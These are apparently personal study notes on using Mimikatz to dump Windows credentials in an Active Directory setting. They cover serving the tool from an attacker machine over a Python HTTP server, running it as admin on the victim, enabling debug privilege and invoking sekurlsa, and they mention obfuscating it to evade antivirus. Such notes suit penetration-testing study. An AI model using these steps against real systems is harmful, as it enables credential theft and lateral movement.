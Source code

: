 
# Mimikatz attack
This is a tool generally used to view and steal credentials, to generate Kerberos tickets and to do attacks.

It can dump credentials stored in memory and can do some attacks like:
- cred dumping
- pass the hash
- over pass the hash
- pass the tickets 
- silver ticket and gold ticket attacks


It can be detected from antivirus so we have to obfuscate it.



## credential dumping with minikatz

First of all we need to get it from github [https://github.com/ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

We download the release and we go to `x64` folder in it and extract the files:
- ![[Pasted image 20241220150414.png]]

The idea is that we need to put these files into a machine in the Active Directory system.

On the attacker we can run:
```bash
python3 -m http.server 80
```

And then get it from the windows machine:
- ![[Pasted image 20241220150602.png]]


Now on the windows victim we open the command prompt and run it as admin and go in the folder:
```bash
c:\users\username\folder_file

minikatz.exe
```

At this point we set the privileges to debug:
```bash
privilege::debug
```

Now we can run attacks.

## sekurlsa attack
We can run:
```bash
sekurlsa::
```
- to see all alternatives
- ![[Pasted image 20241220151125.png]]

